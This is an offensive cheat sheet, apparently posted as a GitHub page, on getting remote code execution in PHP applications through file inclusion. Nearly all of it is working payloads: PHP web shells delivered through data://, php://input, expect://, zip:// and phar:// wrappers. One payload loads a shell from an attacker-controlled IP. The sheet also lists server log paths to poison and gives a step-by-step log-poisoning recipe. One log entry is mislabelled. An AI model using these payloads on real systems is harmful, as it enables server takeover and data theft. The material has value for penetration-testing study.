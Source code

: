 ### **Introduction**

Remote Code Execution (RCE) is a vulnerability that enables an attacker to execute arbitrary commands on a remote system. This exploit allows the attacker to manipulate or access data, disrupt system operations, or gain elevated privileges.

### **Remote Code Execution (RCE) Techniques**

1.  Data Wrapper: Executes commands encoded directly in the URL.  
    `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id`
    
2.  Input Wrapper: Runs commands from data sent in a web request.  
    `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://[DOMAIN_NAME]/index.php?language=php://input&cmd=whoami"`
    
3.  Expect Wrapper: Executes commands using the Expect PHP wrapper.  
    `curl -s "http://[DOMAIN_NAME]/index.php?language=expect://id"`
    
4.  Remote PHP Shell: Uses a remote PHP script to execute commands.  
    `/index.php?language=http://[IP-ADDRESS]:[LISTENING-PORT]/shell.php&cmd=id`
    
5.  Malicious Image Upload: Executes code hidden within an image file.  
    `/index.php?language=./profile_images/shell.gif&cmd=id`
    
6.  Malicious ZIP Upload: Runs PHP code hidden inside a ZIP file.  
    `/index.php?language=zip://shell.zip#shell.php&cmd=id`
    
7.  Malicious PHAR Upload: Executes code from a PHP archive disguised as an image file.  
    `/index.php?language=phar://./profile_images/shell.jpg/shell.txt&cmd=id`
    

### **Target Logs for RCE Poisoning**

Logs vulnerable to RCE poisoning often include user inputs or error information:

1.  Access Logs:  
    `/var/log/apache2/access.log`, `/var/log/httpd-access.log`
2.  Error Logs:  
    `/var/log/apache2/error.log`, `/var/log/apache/error.log`
3.  Logs to Tracks authentication attempts.  
    `/var/log/auth.log`
4.  Logs security details, used in systems with SELinux.  
    `/var/log/secure`
5.  Logs For web applications.  
    `/var/www/logs/access_log`
6.  Logs for Webmin tool.  
    `/var/webmin/miniserv.log`
7.  Logs from Lighttpd web server.  
    `/var/log/lighttpd/access.log`
8.  Logs from ProFTPD server.  
    `/var/log/lighttpd/access.log` -

### **Step-by-Step: RCE via Log Poisoning**

1.  Inject the Payload: This involves modifying the User-Agent string, other header fields, or the content of a request that you know will be logged.  
    `<?php system($_GET['cmd']); ?>`.
    
2.  Exploit LFI Vulnerability: Use an existing Local File Inclusion (LFI) vulnerability to include the poisoned log file in a web page's execution path.  
    `http://[DOMAIN_NAME]/index.php?file=../../../../var/log/apache2/access.log`
    
3.  Execute the Payload: Add a command to the URL as a parameter if the payload is designed to be executed via a GET request.  
    `http://[RFI-URL]/vulnerable_page.php?file=../../../../var/log/apache2/access.log&cmd=whoami`